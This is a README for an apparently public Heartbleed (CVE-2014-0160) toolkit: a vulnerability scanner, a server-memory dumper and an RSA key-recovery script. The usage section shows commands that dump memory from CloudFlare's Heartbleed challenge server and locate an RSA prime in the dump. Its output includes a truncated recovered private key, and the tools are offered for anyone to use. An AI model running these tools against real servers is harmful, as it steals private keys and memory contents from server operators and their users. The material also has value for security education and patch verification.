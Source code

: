## OpenSSL Heartbleed (CVE-2014-0160) vulnerability scanner, data miner and RSA key-restore tools.

Author: Einar Otto Stangvik / @einaros / https://hacking.ventures

Since the cat is long since out of the bag, and others have begun publishing their tools,
I'm putting mine out there too. Hopefully this amplifies the pressure on those that still
haven't patched or upgraded their severs. Others may find the tools of educational value.

Unlike many other Heartbleed PoCs, this tool will supply most possible ciphers in the initial
ClientHello packet. Whatever cipher the server picks will be used for all subsequent ClientHello
packets in a dump session. That should ensure proper vulnerability detection, as well as
decrease overhead once a cipher has been found.

Use these tools as you please, but do us all a favor: Solve problems instead of creating them.

Inspired by the work and publications of:
- Jared Stafford
- Jeremi M Gosney
- Ben M Murphy 
- ... and many others.

### Usage:

Here seen recovering one of the RSA primes of the CloudFlare challenge 34 times in one minute. That equals getting the full private key 34 times in one minute.
![img](https://i.imgur.com/zfEBObE.png)

```
# Test vulnerability
$ ./hb.py -p 4433 localhost
localhost:4433 is vulnerable

# Dupm data from CloudFlare's old challenge server
$ ./hb.py -p 443 www.cloudflarechallenge.com -n 0xF000 -l 100 -t 50 -d -o cloudflare-dump.bin
[2014/04/14 10:55:48] Incoming data rate: 85877 kbps
... runs for a while

# Look for prime in the dump
$ ./keyscan.py cloudflare.crt cloudflare-dump.bin
Key size: 128
Data length: 173476834
cloudflare-dump.bin Offset 0xf155ec: p = 13827796798740740191625032142481917804987720337701...

# Extract key once found
$ ./keyscan.py cloudflare.crt cloudflare-dump.bin 0xf155ec
Prime should be at offset: f155ec
Key size: 128

Hexdump of surrounding data:
f151ec: D0 00 00 00 00 00 00 00 00 00 00 00 00 00 30 C0  ..............0.
f151fc: 3C 01 00 00 00 00 00 00 00 00 00 00 00 00 90 8B  <...............
f1520c: D0 00 00 00 00 00 02 00 C3 A3 4D 08 48 47 00 00  ..........M.HG..
...

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAm0AWkVnDx5feOctdC97Ztgvtd25uKKmhjCHpLycmExe1RiRSl/hGIL7f8Fg/
qiUztVm5uXZJ1UG7dzz+9OtTNh+v27BtzPsU3yivHevwAB1mTMtP6bPuXBjzsxRcC9yVcBBWpKBM
...
```

### License

The author can't and won't hold any right to any part of this package. It's based on open ideas,
and shall remain open for all he cares.
